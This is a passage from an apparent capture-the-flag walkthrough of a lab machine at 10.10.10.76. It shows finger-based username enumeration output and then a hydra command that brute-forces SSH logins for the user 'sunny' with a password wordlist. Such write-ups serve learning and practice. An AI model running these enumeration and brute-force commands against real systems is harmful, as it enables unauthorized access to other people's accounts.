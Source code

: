 ```
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..listen   Network Admin                      < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
sammy@10.10.10.76: sammy                 console      <Apr 24, 2018>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Fri May  28 21:49:09 2021 #########
15 results.

10177 queries in 2147 seconds (4.7 queries / sec)
```

We see that we have a few users that are of interest. The one's with `pts/3` or `console` are of the most interest. This is because it seems that they have actually logged in recently which means they are valid user accounts most likely. Now that I have valid usernames, I am going to run `hydra` which is a tool used to brute force logins. Essentially it will be taking the username `sunny` and `sammy` and be testing it against a list of passwords I provide it. The password list I will be using is `probable-v2-top1575.txt`. The only reason I used this and not `rockyou.txt` is because of time. To use `hydra` and perform a brute force against the user `sunny`, we can use the following command:

```
hydra -l sunny -P /usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt 10.10.10.76 ssh -s 22022  
```

```
root@kali-[~]hydra -l sunny -P /usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt 10.10.10.76 ssh -s 22022                                                                                                              [0/124]
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).                             

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-28 21:51:25                                                                                                                                                          
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                                                                                                       
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore                                                                              
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1575 login tries (l:1/p:1575), ~99 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
```